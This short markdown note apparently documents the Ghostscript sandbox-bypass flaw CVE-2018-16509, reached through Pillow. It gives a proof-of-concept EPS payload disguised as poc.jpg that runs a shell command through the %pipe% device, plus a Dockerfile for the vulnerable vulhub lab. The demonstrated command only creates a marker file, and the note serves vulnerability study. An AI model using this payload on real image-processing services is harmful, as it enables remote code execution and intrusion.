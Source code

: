 ## CVE-2018-16509

参考：
	- https://github.com/vulhub/vulhub/tree/master/python/PIL-CVE-2018-16509

(Ghostscript before v9.24)
poc.jpg
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```


```dockerfile
FROM vulhub/ghostscript:9.23-python

LABEL maintainer="farisv <fvidyan@gmail.com>"

RUN set -ex \
    && pip install -U pip \
    && pip install "flask==1.0.2" "Pillow==5.3.0"

COPY app.py /usr/src/

WORKDIR /usr/src/

CMD ["python", "app.py"]
```